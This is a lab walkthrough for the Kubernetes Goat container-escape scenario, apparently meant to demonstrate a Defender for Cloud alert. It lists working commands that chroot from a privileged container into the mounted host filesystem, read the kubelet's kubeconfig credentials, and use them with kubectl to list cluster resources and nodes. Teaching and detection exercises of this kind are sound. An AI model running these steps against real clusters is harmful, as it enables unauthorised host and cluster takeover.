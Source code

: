 # Setup of Kubernetes Goat 

from https://madhuakula.com/kubernetes-goat/

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

You can gain access to the host system privileges using chroot

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

Finally, you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)

